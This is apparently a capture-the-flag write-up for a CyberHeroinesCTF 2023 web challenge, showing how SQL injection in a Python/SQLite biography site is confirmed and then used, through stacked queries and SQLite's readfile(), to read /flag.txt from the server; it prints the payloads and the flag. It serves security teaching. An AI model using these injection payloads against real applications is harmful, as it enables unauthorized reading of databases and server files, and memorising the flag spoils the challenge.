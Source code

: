 ```yaml
---
title: CyberHeroinesCTF 2023 - Shafrira Goldwasser
date: Sun Sep 10 10:53:21 PM +04 2023
categories: [Writeup]
tags: [ctf,cyberheroinesctf,cyberheroinesctf2023,web,sqli]
---
```


## Shafrira Goldwasser

[Shafrira Goldwasser](https://en.wikipedia.org/wiki/Shafi_Goldwasser)  (Hebrew: שפרירה גולדווסר; born 1959) is an Israeli-American computer scientist and winner of the Turing Award in 2012. She is the RSA Professor of Electrical Engineering and Computer Science at Massachusetts Institute of Technology; a professor of mathematical sciences at the Weizmann Institute of Science, Israel; the director of the Simons Institute for the Theory of Computing at the University of California, Berkeley; and co-founder and chief scientist of Duality Technologies.

## Description

Chal: I asked ChatGPT to make this  [webapp](https://cyberheroines-web-srv4.chals.io/)  but I couldnt prove it was secure. In honor of  [this Turing Award winner](https://www.youtube.com/watch?v=DfJ8W49R0rI), prove it is insecure by returning the flag.

Alternate (Better) Link:  [Webapp](http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6264/)

Author:  [TJ](https://www.tjoconnor.org/)

Source: [webapp.zip](https://cyberheroines.ctfd.io/files/53d484fce0d4e7b2e68170dcae1a9a0e/webapp.zip?token=eyJ1c2VyX2lkIjo1ODQsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjIyfQ.ZP4IzA.NPMDoOb-pblLrryOmKCLi8oqrGc "webapp.zip") (Provided later)

## Solution

![Shafrira-Goldwasser-1](/assets/images/CyberHeroinesCTF/2023/Shafrira-Goldwasser-1.png)

Website let's us choose Cyber Heroine and read their biography. The most probable attack vector seems SQLi, because data comes from somewhere. Quickly testing the classic payload: `' OR 1=1 --`

![Shafrira-Goldwasser-2](/assets/images/CyberHeroinesCTF/2023/Shafrira-Goldwasser-2.png)

SQLi is confirmed.

Now we need to identify DBMS. Since the application is simple and small it's probably SQLite3.

Trying simple payload: `'; SELECT sql FROM sqlite_schema --` (The query turned out to allow different queries, so no need for UNION)

```sql
CREATE  TABLE "cyberheroines" ("name"  TEXT, "biography"  TEXT) 
```

Hmmm... There's only one table? We already looked at the records previously, so where is the flag?

Looking into [PayloadsAllTheThings: SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database): "Remote Command Execution using SQLite command - Attach Database". We can potentially gain RCE from SQLi, if we manage to attach new database and execute php code. This route already failed because application runs on Python and not PHP.

![Shafrira-Goldwasser-3](/assets/images/CyberHeroinesCTF/2023/Shafrira-Goldwasser-3.png)

But we can create a database, insert arbitrary file contents into it, read database for profit.

```sql
';
CREATE TABLE letmein (uwu TEXT);
INSERT INTO letmein VALUES (readfile('/flag.txt'));
SELECT * FROM letmein;
DROP TABLE letmein;
/*
```

1. Escape quote for SQLi
2. Create table
3. Read flag file \[[8.3. File I/O Functions: readfile](https://sqlite.org/cli.html)\]
4. Read from table
5. Discard table (Challenge is ongoing after all)

> Flag: chctf{CH4ng3d_h0w_w3_th1Nk_of_pr00f$}
{: .prompt-tip }